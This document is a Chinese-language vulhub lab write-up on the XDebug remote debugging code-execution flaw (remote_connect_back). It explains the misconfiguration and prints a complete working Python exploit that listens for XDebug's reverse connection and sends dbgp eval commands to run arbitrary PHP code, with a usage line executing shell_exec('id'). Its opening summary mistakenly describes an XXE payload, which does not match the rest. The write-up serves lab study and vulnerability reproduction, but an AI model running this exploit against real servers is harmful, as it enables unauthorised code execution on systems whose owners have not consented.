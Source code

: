# XDebug 远程调试漏洞（代码执行）

###### by ADummy

### 0x00利用路线

​			构造XXE payload--->POST发送--->有回显（也有blind xxe 参考资料）

### 0x01漏洞介绍			

​			XDebug是PHP的一个扩展，用于调试PHP代码。如果目标开启了远程调试模式，并设置`remote_connect_back = 1`：

```
xdebug.remote_connect_back = 1
xdebug.remote_enable = 1
```

这个配置下，我们访问`http://target/index.php?XDEBUG_SESSION_START=phpstorm`，目标服务器的XDebug将会连接访问者的IP（或`X-Forwarded-For`头指定的地址）并通过dbgp协议与其通信，我们通过dbgp中提供的eval方法即可在目标服务器上执行任意PHP代码。

### 0x02漏洞复现

#### 		[exp](https://github.com/vulhub/vulhub/blob/master/php/xdebug-rce/exp.py)

```
#!/usr/bin/env python3
import re
import sys
import time
import requests
import argparse
import socket
import base64
import binascii
from concurrent.futures import ThreadPoolExecutor


pool = ThreadPoolExecutor(1)
session = requests.session()
session.headers = {
    'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
}

def recv_xml(sock):
    blocks = []
    data = b''
    while True:
        try:
            data = data + sock.recv(1024)
        except socket.error as e:
            break
        if not data:
            break

        while data:
            eop = data.find(b'\x00')
            if eop < 0:
                break
            blocks.append(data[:eop])
            data = data[eop+1:]

        if len(blocks) >= 4:
            break
    
    return blocks[3]


def trigger(url):
    time.sleep(2)
    try:
        session.get(url + '?XDEBUG_SESSION_START=phpstorm', timeout=0.1)
    except:
        pass


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='XDebug remote debug code execution.')
    parser.add_argument('-c', '--code', required=True, help='the code you want to execute.')
    parser.add_argument('-t', '--target', required=True, help='target url.')
    parser.add_argument('-l', '--listen', default=9000, type=int, help='local port')
    args = parser.parse_args()
    
    ip_port = ('0.0.0.0', args.listen)
    sk = socket.socket()
    sk.settimeout(10)
    sk.bind(ip_port)
    sk.listen(5)

    pool.submit(trigger, args.target)
    conn, addr = sk.accept()
    conn.sendall(b''.join([b'eval -i 1 -- ', base64.b64encode(args.code.encode()), b'\x00']))

    data = recv_xml(conn)
    print('[+] Recieve data: ' + data.decode())
    g = re.search(rb'<\!\[CDATA\[([a-z0-9=\./\+]+)\]\]>', data, re.I)
    if not g:
        print('[-] No result...')
        sys.exit(0)

    data = g.group(1)

    try:
        print('[+] Result: ' + base64.b64decode(data).decode())
    except binascii.Error:
        print('[-] May be not string result...')
```

```
# 要求用python3并安装requests库
python3 exp.py -t http://127.0.0.1:8080/index.php -c 'shell_exec('id');
```

**重要说明：因为该通信是一个反向连接的过程，exp.py启动后其实是会监听本地的9000端口（可通过-l参数指定）并等待XDebug前来连接，所以执行该脚本的服务器必须有外网IP（或者与目标服务器处于同一内网）。**

![XDebug_远程调试漏洞_代码执行_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/XDebug_远程调试漏洞_代码执行_1.jpg)

### 0x03参考资料

https://blog.csdn.net/qq_43645782/article/details/107040426